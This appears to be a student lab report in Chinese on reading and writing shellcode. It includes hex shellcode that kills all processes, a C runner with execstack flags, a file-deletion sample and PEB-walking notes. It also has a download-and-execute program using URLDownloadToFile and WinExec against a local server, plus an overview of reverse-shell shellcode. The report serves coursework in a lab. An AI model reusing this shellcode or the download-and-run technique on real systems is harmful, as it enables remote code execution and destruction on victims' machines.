

# shellcode

## 实验要求
- [x] 1、详细阅读 www.exploit-db.com 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
- [x] 2、修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
* 其中第二个作业，原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。
* URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数
## 实验步骤
### 实验一
#### 实验要求
还原并解读不同平台及功能shellcode示例共四个。
#### shellcode示例1-linux-64位  
功能：Kill All Processes   
[shellcode-1来源](https://www.exploit-db.com/shellcodes/46492)
##### 实验环境
虚拟机：kali 64位  
物理机：win10
##### 实验步骤
1. scp拷贝shell-test.c文件到kali中  
2. 将shell-test.c编译链接成可执行文件```gcc -fno-stack-protector -z execstack shell-test.c -o shell-test```
3. 执行：```./shell-test```
##### 实验效果
看到确实退出了进程，包括支持图形化界面的进程~  

##### shellcode解读
* rax rbx rcx rdx：通用寄存器（注意 a, b, c, d）。rdi rsi：d 和 s 分别表示 “destination” 和 “source”，不过现在已经没有意义了。
* 在 Linux 使用的 System V 二进制接口中：前 6 个参数通过寄存器传参。函数的返回值则通过 rax 寄存器返回。当函数调用发生时，整型变量/指针按照如下顺序通过寄存器传递：rdi, rsi, rdx, rcx（后来换成了r10）, r8, r9。每个系统调用都有一个整数标识符。
* 在不同平台上，系统调用的编号可能不同。不过，在 Linux 中，这些标识符是永远不会变的。因此汇编代码中'push 0x3e'和'push	0x9'能够很明确地分别表示'sys kill'和'sig kill'。然后不断用rax、rdi、rsi来传递pid,依次pop出栈。
* 最后使用'syscall'指令向系统内核发起系统调用请求。  


C代码及分析如下：
* 之后的C代码都大同小异，因此之后的示例没有给出C代码分析  
```
#include<stdio.h>
#include<string.h>
unsigned char code[] = \
"\x6a\x3e\x58\x6a\xff\x5f\x6a\x09\x5e\x0f\x05";
main()
{
printf("Shellcode Length:  %d\n", (int)strlen(code));//打印输出该shellcode的长度
int (*ret)() = (int(*)())code;//使用函数指针将code的地址赋给ret()，然后调用
ret();
}
```
>完整汇编及C代码存于code/shellcode-1.txt
#### shellcode示例2-linux-32位
功能：deletes the file declared in "fname"  
[shellcode-2来源](https://www.exploit-db.com/shellcodes/46870)
##### 实验环境
虚拟机：ubuntu-16.10-server-32位  
物理机：win10
##### 实验步骤
1. 编译链接，有两种方式：  
```
# 方式一，使用汇编语言
nasm -felf64 delete.nasm -o delete.o   
ld delete.o -o delete
# 方式二，使用.c文件
gcc -fno-stack-protector -z execstack delete.c
```
2. 展示中使用的是第二种方式，执行```./a.out```。
##### 实验效果
看到在汇编代码fname中声明的test.txt被删除了。    

##### shellcode解读

>完整汇编及C代码存于code/shellcode-2.txt
#### shellcode示例3-win-32位
功能：打开cmd.exe   
[shellcode-3来源](https://www.exploit-db.com/shellcodes/39900)
##### 实验环境
虚拟机：xp-sp3-32位  
物理机：win10
##### 实验步骤
1. 将汇编语言保存为winexec.asm,然后使用下列命令编译链接：  
```
# linux系统中使用
nasm -f win32 winexec.asm -o exec.obj
# vs命令行中使用
ld.exe -o winexec.exe exec.obj
```
2. xp-sp3中执行winexec.exe
##### 实验效果

##### shellcode解读
1. 加载PEB找kernel32.dll基地址  
  
2. 找kernel32.dll导出表
  
3. 在导出表中找到GetProcAddress()函数的名字  
  
4. 找到GetProcAddress()函数的地址  
 
5. 保存GetProcAddress()的地址和kernel32.dll的地址，以及找到Winexe()的地址  
  
6. 结束进程  
   
>完整汇编及C代码存于code/shellcode-3.txt

#### shellcode示例4-win7-64位
功能：WinExec() with ExitThread()  
[shellcode-4来源](https://www.exploit-db.com/shellcodes/13521)
##### 实验环境
虚拟机：win7 professional 64位  
物理机：win10
##### 实验步骤
1. 使用以下命令，在vs命令符中进行编译链接  
```
ml /c /coff /Cp wexec2.asm  
link /subsystem:windows /section:.text,w wexec2.obj
```
2. 得到wexec2.exe拖入win7系统中运行
##### 实验效果
效果不是很明显，但是看到鼠标旁边的小圈圈转动了，然后又不转了，说明显示运行了程序，然后又结束了线程。

##### shellcode解读
这个示例是使用一个个小函数来实现功能的，从函数的名称能大概理解功能。  

>完整汇编及C代码存于code/shellcode-4.txt
### 实验二
#### 实验要求
修改[示例shellcode](https://www.exploit-db.com/shellcodes/48116),使其下载并运行某个程序  
#### 实验原理
1. 提前编译链接好一个.exe，搭建web服务器提供.exe的下载。
2. 编写shellcode
* shellcode要实现的步骤：  
1)获取kernel32.dll基地址  
2)定位GetProcAddress函数地址  
3)使用GetProcAddress确定LoadLibrary函数地址  
4)使用LoadLibrary加载DLL文件  
5)使用GetProcAddress查找某个函数的地址   
6)指定函数参数  
7)调用函数  
3. shellcode转成十六进制字符串
4. 使用C语言，函数指针的方式，执行shellcode转化成的十六进制字符串

#### 实验步骤
1. 使用cmd.exe进入shellcode.exe文件夹，输入```python -m http.server 5000```开启静态服务器提供exe下载。
* 可以执行以下代码并试用体会URLDownloadToFile()和WinExec()功能。测试结果如图：  
  
>code/memeory.c的代码内容如下，用于测试exe是否能被正确下载和执行：
```
#include <stdio.h>
#include <Urlmon.h>
#include <shellapi.h>
#pragma comment (lib,"Urlmon.lib")
int main(void)
{
 HRESULT hr = URLDownloadToFile(NULL, "http://127.0.0.1:5000/memory.exe", "shellcode.exe", 0, NULL);
 if (hr == S_OK)
 {
  printf("OK\n");
 }
 WinExec("shellcode.exe", 0);
 ExitProcess(0);
 return 0;

}
```
>code/shellcode.exe是编译链接好的可执行文件，调用MessageBox(),功能是显示一个标题为'shellcode-test',内容为'shellcode writed by mudou'的弹窗  
2. 编写shellcode,生成汇编语言文件与二进制文件
>code/shell.asm是汇编语言文件  
>code/Shellcode.bin是二进制文件
3. shellcode转成十六进制

* 以上结果再在.c文件中改改就好~
4. vs中使用.c文件运行shellcode
  
>code/shellcode.c是应用shellcode的代码
#### 实验效果

## 实验问题
1. linux 32位的系统搞了好久，怪不得老师说要认真学习使用vim与vi,现在64位最新使用的系统已经十分人性化，而以前的系统真是十分严格的linux呢！而且host-only的dhcp也是要自己搞，还好之前ns课程有踩坑。
2. 对于汇编语言和C语言的编译链接方式不一样，windows 32位系统shellcode的应用也搞了好久，因为使用之前的```cl /c /MT a.c```和```link /SUBSYSTEM:CONSOLE,5.01 a.obj```依然无法在xp-sp3中使用，只能采用汇编语言编译链接的方式。  
关于编译链接的总结：在自己有限次数的实验中，发现如果有汇编语言，那么编译链接汇编语言的方式更为靠谱，此外，同一个示例代码不能因为一次应用不成功就否认，应该变换工具编译链接，然后再扔到各个环境中尝试。
3. 测试使用URLDownloadToFile()下载文件的时候，一开始偷懒没有自己搭服务器，而是上传到了github上再下载，会出现文件损坏。  
  
分析：一开始以为是函数使用错误，结果不是，观察很久发现是文件损坏。原因是github服务器在国外，速度慢，下载过程中会疏漏。  
解决：自己搭静态服务器。
4. 应用shellcode时，.c测试文件内存报错，报错如下图：  
  
解决：使用virtualprotect()  
5. 下载一个文件夹，删除报错，报错信息如下图：  

解决：根据[解决来源](https://www.wintips.org/fix-you-need-permission-to-perform-this-action-cannot-delete-folder-file/)，输入以下命令:  
```
takeown /F "C:\Folder1" /r /d y  
icacls "C:\Folder1" /grant Administrators:F /t  
rd "C:\Folder1" /S /Q    
```
确实删除了其他文件夹，还剩下一个文件夹怎么都删除不了  
  
解决：重启后删除成功。    
分析：实验中使用了Release文件夹中的进程没有结束彻底。  
## 实验总结
1. 经过此次实验作业，加深了对汇编语言的理解和感受，学好汇编太重要了。首先是AT&T与Intel风格的汇编语言区别:  
DOS/Windows 下的汇编语言代码都是 Intel 风格的，而 Linux 和 Unix 系统中更多采用的是 AT&T 格式。  
2. shellcode示例C代码中多次使用到了函数指针。函数指针值得学习：  
[深入理解C语言函数指针](https://www.cnblogs.com/windlaughing/archive/2013/04/10/3012012.html)和[深入浅出——理解c/c++函数指针](https://zhuanlan.zhihu.com/p/37306637)  
函数指针学习总结： 
* 函数指针：将函数的首地址存储在某个函数指针变量中，被存储地址的函数指针称为函数指针常量，被赋予函数指针的称为函数指针变量，从而使两个不同函数名的函数拥有相同的函数调用效果。通俗地理解，就是将一个函数的首地址通过指针进行传参来调用。
* 函数指针变量跟普通的指针一样在32位系统下大小都为4。但是函数指针常量的大小为1.
* 函数指针变量和函数指针常量存储在内存的不同位置。
* 为负值的函数指针变量（全局）的值为0
* 函数指针同样要求返回值匹配和参数匹配
3. shellcode编写总结  
1）不能使用字符串的直接偏移，必须把字符串存储在栈上。  
2）不能确定函数的地址（如printf），把DLL文件加载到内存，先找所需要的函数，然后通过Windows API为我们提供的两个函数：LoadLibrary和GetProcAddress查找目标函数的地址。  
3）必须避免一些特定字符。原因：如NULL字节，因为在C/C++代码中，空字节被认为是字符串的结束符。以及如果使用strcpy(),strcpy函数便会在空字节处终止拷贝操作，引发栈上的shellcode不完整  
4）Linux平台的Shellcode可能更为简单。在linux平台上，我们可以轻松地通过0×80中断执行类似write、execve或send的系统调用  
 
4. PEB(进程控制块)   
1）PEB是一个位于所有进程内存中固定位置的结构体。此结构体包含关于进程的有用信息，如可执行文件加载到内存的位置，模块列表（DLL），指示进程是否被调试的标志，还有许多其他的信息。  
2）DLL（由于ASLR机制）可以加载到不同的内存位置，因此我们不能在shellcode中使用固定的内存地址。不过，我们可以使用PEB这个结构，位于固定的内存位置，从而查找DLL加载到内存中的地址。
3）Reserved字段没有相应的描述,而其他一些字段具有相应的文档描述。从保留字段推断出可访问字段的偏移地址是容易的。（比如BYTE表示1个字节。PVOID表示1个指针（或1个内存地址），在0×86系统上（32位系统）占用4个字节等。）
4）实验要用到的就是PEB中Ldr的字段，根据PEB结构可以容易推出该字段在0xC偏移处。
5. 如何查找kernel32.dll内存地址？  
1）windbg上使用'!ped'可见PEB起始地址以及Ldr地址。
  
ldr的定义：  
  
2）由ldr地址（0xC）找到PEB_LDR_DATA。在偏移20字节（0x14,20字节=160位，8位一个地址，所以1字节对应1地址，20/16=1······4）后访问 InMemoryOrderModuleList字段，该字段可以指出已加载DLL的相关信息。  
3）通过不断遍历找到目标dll对应的LDR_DATA_TABLE_ENTRY结构体。  
4）访问LDR_DATA_TABLE_ENTRY结构体来获取已加载目标DLL的地址信息（DllBase字段）。
 
6. shellcode分类：  
1）下载执行  
调用URLDownloadToFile函数下载恶意文件到本地，并且使用Winexec执行  
2）捆绑  
通过GetFileSize获取文件句柄，获取释放路径（GetTempPathA），设置好文件指针（SetFilePoint），使用VirtualAlloc在内存中申请一块内存，再将数据读取（ReadFile）写入到本地文件（CreateFIle WriteFile），最后在对该文件执行。  
3）反弹shell  
反弹shell属于无文件攻击，使用socket远程获得对方的cmd.exe。优点是不容易留下日志，适合渗透测试中使用，缺点也很明显，维持连接的稳定性较差。  
在Windows下实现反弹shell，比Linux多了一个步骤，启动或者初始化winsock库，之后创建cmd.exe进程然后TCP连接端口/打开监听方法都是相近的。  
需要注意的使用C编程可以使用Socket结合双管道进行通信，但是用汇编管道编写比较麻烦。不建议使用管道来进行通信。解决方案是使用WSASocket代替Socket，这个函数支持IO重叠。
## 参考文献
[www.exploit-db.com-shellcode](https://www.exploit-db.com/shellcodes)  
[!peb](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/-peb)  
[PEB结构学习](https://www.cnblogs.com/binlmmhc/p/6501545.html)  
[PEB structure](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb)  
[Process Environment Block](https://en.wikipedia.org/wiki/Process_Environment_Block)   [PEB_LDR_DATA structure](https://docs.microsoft.com/zh-cn/windows/win32/api/winternl/ns-winternl-peb_ldr_data)   
[PE Format](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format)  
[汇编语言--Linux 汇编语言开发指南](https://zhuanlan.zhihu.com/p/54853591)  
[Raw Linux Threads via System Calls](https://nullprogram.com/blog/2015/05/15/)  
[URLDownloadToFile function](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/ms775123(v%3Dvs.85))  
[LoadLibraryA function](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)  
[Shellcode](https://en.wikipedia.org/wiki/Shellcode)  
[Windows平台shellcode开发入门（一）](https://www.freebuf.com/articles/system/93983.html)  
[Windows平台shellcode开发入门（二）](https://www.freebuf.com/articles/system/94774.html)  
[Windows平台shellcode开发入门（三）](https://www.freebuf.com/articles/system/97215.html)  
[shellcode教程从新手到高手](https://wooyun.js.org/drops/shellcode%E6%95%99%E7%A8%8B%E4%BB%8E%E6%96%B0%E6%89%8B%E5%88%B0%E9%AB%98%E6%89%8B.html)  
[ShellcodeCompiler](https://github.com/NytroRST/ShellcodeCompiler)  
[一个很好的作业二示例，可供学习与测试](https://www.exploit-db.com/shellcodes/24318)